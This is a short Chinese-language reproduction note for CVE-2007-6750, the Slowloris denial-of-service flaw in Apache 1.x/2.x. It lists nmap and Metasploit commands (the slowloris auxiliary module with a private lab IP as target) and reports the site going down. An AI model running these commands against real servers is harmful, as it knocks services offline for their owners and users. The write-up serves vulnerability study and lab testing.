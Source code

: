 （CVE-2007-6750）Apache ddos
============================

一、漏洞简介
------------

Apache
HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod\_ReqTimeout模块有关

二、漏洞影响
------------

Apache 1.x/2.x

三、复现过程
------------

nmap -sV -p80
192.168.146.175(用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)![](./resource/(CVE-2007-6750)Apacheddos/media/rId24.png)

接着访问网站查看是否正常(发现网站正常)![](./resource/(CVE-2007-6750)Apacheddos/media/rId25.png)

    msfconsole(启动metasploit)

    use auxiliary/dos/http/slowloris(使用模块)

    set RHOST 192.168.146.175(设置目标IP)

    run(执行攻击)

![](./resource/(CVE-2007-6750)Apacheddos/media/rId26.png)

再访问网站查看是否正常(发现网站瘫痪)

![](./resource/(CVE-2007-6750)Apacheddos/media/rId27.png)

四、参考链接
------------

> https://www.jsxlo.com/cve-2007-6750/
